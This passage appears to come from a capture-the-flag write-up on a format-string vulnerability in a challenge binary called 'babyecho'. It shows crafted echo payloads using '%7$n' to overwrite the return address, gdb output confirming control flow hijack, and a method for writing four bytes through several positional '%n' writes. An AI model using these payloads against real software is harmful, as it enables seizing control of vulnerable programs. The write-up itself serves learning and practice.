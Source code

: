 ```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff%10000x%7$n' | ./babyecho</span>
Reading 13 bytes
....                                                                                                  d
Reading 1023 bytes
L...
[...lots of empty space...]
3ffSegmentation fault (core dumped)

$ <span class="in">gdb -q ./babyecho ./core</span>
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00002714 in ?? ()
```

0x2714 = 10004 - so we can definitely control the return address!

## Writing four bytes

When we're running it locally, we can also go a little crazy:

```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff%1094795581x%7$n' | ./babyecho > /dev/null</span>
segmentation fault
$ <span class="in">gdb -q ./babyecho ./core</span>
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
```

We use %1094795581x to write 0x4141413d bytes to stdout, then %7$n writes 0x41414141 to the return address. The problem is, if we were running that over the network, we'd have to wait for them to send us 1,094,795,581 or so bytes, which is around a gigabyte, so that's probably not going to happen. :)

What we need is to provide four separate addresses. We've been using %7$n all along to access the address identified by the first four bytes of the string:

```

"AAAA%7$n"
```

But we can actually do multiple addresses:

```

"AAAABBBBCCCCDDDD%7$n%8$n%9$n%10$n"
```

That will try writing to the 7th thing on the stack - 0x41414141. If that succeeds, it'll write to the 8th thing - 0x42424242 - and so on. We can prove that by using %..x instead of %..n:
